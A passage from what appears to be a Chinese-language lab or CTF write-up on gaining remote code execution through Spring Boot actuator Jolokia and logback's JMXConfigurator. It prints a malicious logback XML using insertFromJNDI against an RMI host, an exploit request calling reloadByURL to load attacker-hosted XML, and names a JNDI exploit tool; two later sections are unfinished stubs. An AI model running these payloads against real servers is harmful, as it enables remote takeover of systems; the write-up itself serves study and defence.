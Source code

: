 靶机的logback设置没打开，那就是默认文件名为`logback.xml`或`logback-spring.xml`，打开后为设置的文件名，比如这里就是`logback-online.xml`。

![image-20230622232354270](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230622232354270.png)

logback依赖存在的情况下，`/jolokia/list`可以搜到`ch.qos.logback.classic.jmx.JMXConfigurator`，这是payload中重要一环，具体的漏洞分析可以看上面的文章。

![image-20230622232320017](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230622232320017.png)

流程是服务端加载远程`xml`文件 -> `xml`文件中用`insertFromJNDI`打`JNDI`注入，请求远程恶意`rmi`服务，加载恶意`java`类，完成RCE。

POC

服务器上放的`xml`

```xml
<configuration>
	<insertFromJNDI env-entry-name="rmi://xxx.xxx.xxx.xxx:1099/remoteExploit8" as="appName"/>
</configuration>
```

恶意rmi服务我用https://github.com/cckuailong/JNDI-Injection-Exploit-Plus起的，这个项目链子比较多，挺好用。
```
http://localhost:8080/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/xxx.xxx.xxx.xxx:xxx!/logback-online.xml
```

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230719173932.png)

#### actuators + jolokia realm RCE

有空补

#### actuators + Spring Cloud RCE

有空补